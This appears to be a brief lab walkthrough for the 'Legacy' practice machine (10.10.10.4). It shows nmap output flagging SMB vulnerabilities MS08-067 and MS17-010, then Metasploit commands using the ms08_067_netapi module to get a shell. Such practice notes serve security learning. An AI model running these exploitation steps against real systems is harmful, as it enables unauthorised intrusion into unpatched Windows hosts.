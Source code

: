 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Legacy
# 16/3/2023
10.10.10.4

----------------------------------------------------
# nmap
----------------------------------------------------
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
| smb-vuln-ms08-067: 
|   VULNERABLE:
| smb-vuln-ms17-010: 
|   VULNERABLE:

----------------------------------------------------
# exploitation
----------------------------------------------------
└─$ msfconsole  
msf6 > search ms08-067
use windows/smb/ms08_067_netapi
set options
run 
bingo we hot shell
